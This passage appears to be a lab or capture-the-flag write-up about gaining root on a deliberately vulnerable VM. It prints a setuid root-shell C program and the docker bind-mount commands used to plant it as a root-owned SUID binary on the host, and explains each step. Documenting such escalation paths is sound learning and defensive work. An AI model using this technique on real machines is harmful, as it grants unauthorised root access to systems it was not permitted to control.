 Earlier, when I found the SUID binary in the user's home, `~/Desktop/a.out`, I checked it out with the `strings` command and it seemed safe enough, so I ran it; I don't care about this machine, it doesn't have internet access, and I can just revert if things break. It turns out that binary was just a `whoami`, but because of SUID, the output was `root`.

I also tried compiling an exploit for SUID myself at that time, but as an unprivileged user, you can't chown things to root.

{{< highlight markdown >}}
hummingbirdscyber@vulnvm:~$ cat exploit.c 
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
{{< / highlight >}}

I built/linked it with gcc, which was already installed:

`gcc -o exploit exploit.c`

Since I could chmod 4777 for SUID, but couldn't chown root:root first, I gave up when I first looked at this. Whoops!

We had root on all the docker containers, so all I needed to do was reuse an image that's already on the box (because no internet access), and create a bind mount to abuse the docker privileges.

{{< highlight markdown >}}
hummingbirdscyber@vulnvm:~$ docker run -v $(pwd)/persist:/persist --name persist -d ubuntu:latest sleep 600 
d407a4a053b1513742ea6908887c1f8c97f5667f82a2afcce28ecb01c6b3fd4c
hummingbirdscyber@vulnvm:~$ docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                  NAMES
d407a4a053b1        ubuntu:latest       "sleep 600"              1 second ago        Up 1 second                                persist
252fa8cb1646        ubuntu              "/bin/bash"              8 weeks ago         Up 13 hours                                brave_edison
1afdd1f6b82c        wordpress:latest    "docker-entrypoint.s…"   8 weeks ago         Up 13 hours         0.0.0.0:8000->80/tcp   experimental_wordpress_1
81a93420fd22        mysql:5.7           "docker-entrypoint.s…"   8 weeks ago         Up 13 hours         3306/tcp, 33060/tcp    experimental_db_1

{{< / highlight >}}

Then we copy the exploit to the dir we used for our bind mount, and `docker exec` to get into the container and access the bind mount as root, and chown/chmod appropriately. This change persists to the host, so next we simply exit the container and execute the malicious SUID binary as our unprivileged user and become root.
